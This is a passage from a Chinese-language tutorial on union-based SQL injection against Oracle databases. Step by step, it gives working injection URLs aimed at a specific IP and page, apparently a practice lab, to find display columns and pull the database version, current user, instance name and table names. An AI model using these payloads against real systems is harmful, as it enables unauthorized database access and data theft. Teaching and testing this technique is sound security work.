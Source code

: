 #### 2、获取显错点

联合查询这里使用了union select，oracle数据库与mysql数据库不同点在于它对于字段点数据类型敏感，也就是说我们不能直接union select 1,2,3来获取显错点了，需要在字符型字段使用字符型数据，整型字段使用整型数据才可以。如下，两个字段都为字符型，故使用union select 'null','null'。

(在有些情况下也采用union all select的形式进行联合查询。union all select与union select的不同点可以很容易理解为all表示输出所有，也就是当数据出现相同时，将所有数据都输出；union select则会将相同数据进行过滤，只输出其中一条。)

```sql
#联合查询
http://219.153.49.228:43469/new_list.php?id=-1 union select null,null from dual
#修改null为'null'，判断字段类型均为字符型
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null','null' from dual
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095411-dea090b2-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095411-dea090b2-f00f-1.png)
后续便可以替换显错点进行注入。

#### 3、查询数据库版本信息

```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select banner from sys.v_$version where rownum=1) from dual
```

#### 4、获取当前数据库连接用户

```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select sys_context('userenv','current_user') from dual) from dual

http://219.153.49.228:44768/new_list.php?id=-1 union select '1',user from dual
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095411-ded01490-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095411-ded01490-f00f-1.png)

#### 5、查询当前数据库库名

```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select instance_name from V$INSTANCE) from dual
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095412-def9e612-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095412-def9e612-f00f-1.png)

#### 6、查询数据库表名

查询表名一般查询admin或者user表

##### 直接查询

获取第一个表名**LOGMNR_SESSION_EVOLVE$**

```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select table_name from user_tables where rownum=1) from dual
```

